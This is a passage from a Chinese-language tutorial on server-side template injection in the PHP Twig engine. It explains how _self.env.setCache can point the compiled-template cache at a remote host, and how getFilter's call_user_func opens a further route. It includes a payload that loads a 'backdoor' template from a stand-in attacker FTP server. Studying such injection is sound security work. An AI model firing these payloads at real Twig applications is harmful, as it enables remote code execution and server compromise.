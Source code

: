 env是指属性Twig_Environment对象，Twig_Environment对象有一个 setCache方法可用于更改Twig尝试加载和执行编译模板（PHP文件）的位置(不知道为什么官方文档没有看到这个方法，后来我找到了Twig 的源码中的 environment.php

**如下图所示：**

[![img](assets/1667436023749-938ea84f-5b3b-4457-b4fd-4021ed00f42a.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Twig_setCache.png)

因此，明显的攻击是通过将缓存位置设置为远程服务器来引入远程文件包含漏洞：

**payload:**

{{_self.env.setCache("ftp://attacker.net:2121")}} {{_self.env.loadTemplate("backdoor")}} 

**但是新的问题出现了**，allow_url_include 一般是不打开的，没法包含远程文件，没关系还有个调用过滤器的函数 [getFilter()](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)

这个函数中调用了一个 call_user_function 方法

```java
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) {//注意这行
            return $filter;
        }
    }
    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
} 
```
